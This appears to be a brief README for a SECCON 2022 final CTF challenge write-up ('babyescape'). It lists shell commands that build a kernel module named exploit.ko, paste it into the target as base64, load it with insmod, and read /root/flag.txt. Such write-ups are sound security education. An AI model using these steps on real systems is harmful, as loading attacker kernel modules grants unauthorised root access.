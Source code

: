 # seccon-2022-final-babyescape-writeup
```
./download_and_configure_kernel.sh
make
base64 exploit.ko | xsel -bi
```

```
busybox echo '<paste base64 exploit.ko>' | busybox base64 -d > exploit.ko
busybox insmod exploit.ko
cat /root/flag.txt
```
